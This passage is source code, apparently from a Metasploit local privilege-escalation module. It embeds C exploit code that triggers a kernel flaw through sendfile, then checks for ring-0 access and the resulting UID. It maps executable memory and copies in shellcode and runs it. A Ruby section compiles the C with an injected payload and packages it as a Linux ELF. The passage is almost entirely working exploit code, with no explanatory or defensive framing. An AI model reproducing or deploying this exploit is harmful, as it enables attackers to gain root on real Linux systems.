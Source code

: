         printf("got_ring0 addr: " PTR_FMT "\n", &got_ring0);
        printf("Calling sendfile(%d, %d, %d, %d)\n", out_fd, in_fd, NULL, 4096);
        sendfile(out_fd, in_fd, NULL, 4096);
        printf("got_ring0: " PTR_FMT ", %d\n", &got_ring0, got_ring0);
        printf("UID: %d GID: %d\n", getuid(), getgid());

        func = mmap(NULL, 0x1000,
                PROT_READ | PROT_WRITE | PROT_EXEC,
                MAP_PRIVATE | MAP_ANONYMOUS,
                0, 0
            );
        mprotect(func, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);
        // weaksauce memcpy so we don't have to #include <string.h>
        printf("Copying %d bytes of shellcode\n", shellcode_size);
        for (i = 0; i < shellcode_size; i++) {
            (char)func[i] = (char)shellcode[i];
        }
        printf("Calling shellcode: 0x%p\n", func);
        //sigtrap();
        func();

        return got_ring0;
    }
    ^
                main.gsub!(/shellcode =/) do
                    # split the payload into 16-byte chunks and dump it out as a
                    # hex-escaped C string
                    %Q|shellcode =\n"#{payload.encoded.scan(/.{,16}/).map{|c|Rex::Text.to_hex(c,"\\x")}.join(%Q|"\n"|)}"|
                end
                main.gsub!(/shellcode_size = 0/, "shellcode_size = #{payload.encoded.length}")
                cparser.parse(main, "main.c")

                asm = cpu.new_ccompiler(cparser, sc).compile

                sc.parse asm
            end

            sc.assemble

            begin
                if sc.kind_of? Metasm::ELF
                    elf = sc.encode_string
                else
                    foo = sc.encode_string
                    elf = Msf::Util::EXE.to_linux_x86_elf(framework, foo)
                end
            rescue
                print_error "Metasm Encoding failed: #{$!}"
                elog "Metasm Encoding failed: #{$!.class} : #{$!}"
                elog "Call stack:\n#{$!.backtrace.join("\n")}"
                return
            end
